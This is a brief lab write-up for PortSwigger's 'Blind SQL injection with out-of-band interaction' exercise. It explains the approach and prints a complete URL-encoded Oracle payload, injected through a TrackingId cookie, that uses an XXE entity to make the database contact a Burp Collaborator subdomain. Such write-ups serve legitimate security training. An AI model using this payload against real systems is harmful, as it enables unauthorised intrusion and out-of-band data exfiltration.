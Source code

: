```yaml
---
title: Blind SQL injection with out-of-band interaction
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band/">
13. Blind SQL injection with out-of-band interaction</a>

This web application handles SQL queries asynchronously, making it difficult to
detect the results of a SQL injection attack. This includes trying to determine
the type of SQL database in use. To solve this, we eventually use the Oracle XXE
vulnerability to trigger a DNS lookup. This lab requires the use of
PortSwigger's Burp Suite Professional distribution, however, in a real
engagement you could always create your own DNS server to capture the DNS
lookup. Here's the payload:

```sql
TrackingId=Rr0hDYsZaZYs6nuZ'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
